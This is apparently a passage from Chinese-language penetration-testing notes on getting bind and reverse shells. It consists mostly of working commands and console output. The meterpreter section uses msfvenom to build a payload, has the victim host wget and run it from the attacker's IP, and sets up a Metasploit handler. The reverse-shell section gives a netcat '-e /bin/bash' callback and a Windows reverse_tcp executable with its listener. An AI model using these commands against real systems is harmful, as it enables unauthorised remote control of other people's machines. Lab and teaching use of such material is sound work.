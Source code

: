 使用meterpreter
```
攻击者      192.168.1.3

# 第一步，生成bind shell的程序，供后续被入侵设备wget下载
# msfvenom -p linux/x86/meterpreter/bind_tcp lport=7777  -f elf -o bshell

# 第三步，使用msf主动连接被入侵设备
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/bind_tcp
payload => linux/x86/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set RHOST 192.168.1.2
RHOST => 192.168.1.2
msf5 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf5 exploit(multi/handler) > run

[*] Started bind TCP handler against 192.168.1.2:7777
[*] Sending stage (985320 bytes) to 192.168.1.2
[*] Meterpreter session 3 opened (192.168.1.3:40231 -> 192.168.1.2:7777) at 2020-05-16 07:44:32 -0400

meterpreter > ls
Listing: /root
==============

Mode              Size     Type  Last modified              Name


被入侵系统  192.168.1.2
第二步
wget http://192.168.1.3/bshell
chmod +x bshell
./bshell &
```

### reverse shell
使用nc
```
被入侵系统  192.168.1.2
nc 192.168.1.3 6666 -e /bin/bash

攻击者      192.168.1.3
nc -lvp 6666
```

使用meterpreter
```
攻击者      192.168.1.3

# 第一步，生成反弹shell的程序，供后续被入侵设备wget下载
# msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.3 lport=5555 -f exe -o rshell.exe

# 第三步，使用msf开启监听反弹shell
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.1.3
LHOST => 192.168.1.3
msf5 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf5 exploit(multi/handler) > run

# 当被入侵系统执行rshell.exe时，攻击者可以收到以下反弹shell信息，接下来就可以执行命令了，meterpreter封装了自己的一套命令，是不依赖系统的
[*] Started reverse TCP handler on 192.168.1.3:5555 
```